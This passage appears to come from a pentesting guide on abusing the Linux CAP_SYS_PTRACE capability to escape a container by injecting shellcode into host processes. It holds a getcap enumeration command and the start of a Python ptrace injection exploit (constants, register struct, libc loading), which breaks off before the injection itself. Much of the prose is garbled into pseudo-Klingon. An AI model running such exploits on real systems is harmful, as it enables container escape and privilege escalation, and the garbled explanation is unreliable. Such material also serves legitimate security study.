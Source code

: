 **Qa'vInDaq DaH jImej 'ej DaH jImej vItlhutlh container vItlhutlh host vaj inject shellcode.** vaj processes vItlhutlh host vaj container vItlhutlh run **`--pid=host`**.

**[`CAP_SYS_PTRACE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** `ptrace(2)` debugging 'ej system call tracing functionalities vItlhutlh 'e' vaj `process_vm_readv(2)` 'ej `process_vm_writev(2)` cross-memory attach calls vItlhutlh. 'ach, 'oH powerful diagnostic 'ej monitoring purposes, 'ej 'oH 'e' vaj `CAP_SYS_PTRACE` enabled without restrictive measures 'ej seccomp filter 'e' vaj `ptrace(2)` vItlhutlh, 'oH significantly undermine system security. 'oH, 'oH can be exploited to circumvent other security restrictions, notably those imposed by seccomp, as demonstrated by [proofs of concept (PoC) like this one](https://gist.github.com/thejh/8346f47e359adecd1d53).

**Example with binary (python)**
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```

```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
_fields_ = [
("r15", ctypes.c_ulonglong),
("r14", ctypes.c_ulonglong),
("r13", ctypes.c_ulonglong),
("r12", ctypes.c_ulonglong),
("rbp", ctypes.c_ulonglong),
("rbx", ctypes.c_ulonglong),
("r11", ctypes.c_ulonglong),
("r10", ctypes.c_ulonglong),
("r9", ctypes.c_ulonglong),
("r8", ctypes.c_ulonglong),
("rax", ctypes.c_ulonglong),
("rcx", ctypes.c_ulonglong),
("rdx", ctypes.c_ulonglong),
("rsi", ctypes.c_ulonglong),
("rdi", ctypes.c_ulonglong),
("orig_rax", ctypes.c_ulonglong),
("rip", ctypes.c_ulonglong),
("cs", ctypes.c_ulonglong),
("eflags", ctypes.c_ulonglong),
("rsp", ctypes.c_ulonglong),
("ss", ctypes.c_ulonglong),
("fs_base", ctypes.c_ulonglong),
("gs_base", ctypes.c_ulonglong),
("ds", ctypes.c_ulonglong),
("es", ctypes.c_ulonglong),
("fs", ctypes.c_ulonglong),
("gs", ctypes.c_ulonglong),
]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

```